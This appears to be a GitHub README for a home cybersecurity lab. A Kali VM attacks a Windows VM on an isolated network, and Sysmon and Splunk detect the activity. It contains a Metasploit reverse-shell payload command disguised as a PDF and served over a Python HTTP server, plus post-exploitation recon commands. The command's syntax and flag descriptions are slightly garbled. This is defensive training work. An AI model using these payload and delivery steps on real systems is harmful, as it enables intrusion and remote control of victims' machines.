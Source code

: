 <h3>Objective</h3>

I created this lab to have a safe space to safely experiment with red/blue team roles in a live environment. In this lab, I will create a private network with two endpoints. One of the VMs will be our blue team machine(Windows Box) and the other will be our red team machine(Kali-linux). I will place both machines on a private network and use Metasploit in the Kali Linux VM to attack our Blue team VM, which will have Sysmon and a Splunk instance to capture all the traffic. 

<h3>Skills Learned</h3>  

-Log analysis

-Configuration of a System Information Event Manager(SIEM)

-Red/blue teaming

-Virtual machine configuration

-Experience in a simulated live environment

<h3>Tools Used</h3>

-Splunk

-Sysmon

-Metasploit

<h3>Virtual Machine/Network Setup</h3>   

Spin up two VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the "Internal Network" setting while making both VM IPs static to the same network. This network scheme was selected to keep the VMs from being accessible from the open web, while also having the ability to communicate with each other.

The IP's in this Homelab: Windows VM- 192.168.33.2, Kali VM- 192.168.33.3 

For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

<h3>Splunk Setup</h3>

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance

<h3>Weaponization</h3>
  
  To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Ref 2: Malicious Payload

<h3>Delivery/Installation</h3>

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999. 
On our Windows machine, we will search for the IP via browser to find the https server being hosted by our Kali VM followed by ":9999" which is the port designated in our Python command. 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

Ref 3: Delivering the Payload to the Victim

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

<h3>Command & Control</h3>

Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the Msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine.
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler.
The session has been opened with our victim machine (192.168.33.2).

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Ref 4: Reverse Shell

Now we will run the following commands in our handler to open up a shell and create network traffic to analyze in our Splunk instance.
Commands: shell, netstat, ipconfig, net user, net group.

<h3>Log Analysis</h3>

Time to do some threat hunting in our Splunk instance.
We will start by searching for our index in Splunk.
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP.

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

Ref 5: Splunk Query by IP

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

Ref 6: Splunk Event Details

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Ref 7: Shell Commands With a Parent Process of Quarterlyreport.pdf.exe

<h3>Incident Response</h3>

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to block this suspected RAT throughout the network.

